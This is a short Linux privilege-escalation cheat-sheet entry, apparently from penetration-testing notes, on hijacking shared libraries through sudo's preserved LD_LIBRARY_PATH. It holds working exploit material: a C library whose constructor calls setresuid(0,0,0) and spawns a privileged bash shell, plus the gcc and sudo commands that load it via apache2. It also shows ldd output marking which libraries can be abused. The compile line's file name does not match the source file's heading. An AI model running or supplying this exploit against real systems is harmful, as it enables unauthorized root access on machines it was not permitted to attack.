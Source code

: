 # LD_LIBRARY_PATH (env_keep)
LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.
#### Detection
```bash
ldd /usr/sbin/apache2
```

#### Exploitation code (ld_preload.c)
```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

#### Exploitation
```bash
gcc -o /tmp/libcrypt.so.1 -shared -fPIC library_path.c
sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2
```

#### Note
```bash
# Example with MORE
user@debian:/tmp$ ldd /bin/more 
	# Trying to abuse this library will not work !!!
	linux-vdso.so.1 =>  (0x00007fff78fff000)
	# Trying to abuse this library will work !!!
	libncurses.so.5 => /lib/libncurses.so.5 (0x00007f3fd1a67000)
```
